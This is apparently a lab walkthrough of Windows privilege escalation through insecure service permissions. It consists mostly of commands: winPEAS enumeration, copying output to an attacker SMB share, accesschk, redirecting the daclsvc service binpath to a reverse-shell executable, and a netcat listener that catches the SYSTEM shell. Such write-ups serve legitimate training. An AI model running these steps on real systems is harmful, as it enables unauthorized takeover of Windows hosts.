







1x1 Service - Insecure Service Permissions

# Service - Insecure Service Permissions


```bash
.\winPEASany.exe ansi quiet servicesinfo > wpeas_services_op.txt

copy C:\PrivEsc\wpeas_services_op.txt \\10.9.4.127\kali\wpeas_services_op.txt

cat wpeas_services_op.txt
```
Identified 1 service mis-configuration



```console
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```


```bash
sc qc daclsvc
```

```bash
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

```bash
sudo nc -nvlp 53
```

```bash
net start daclsvc
```


**Got System**


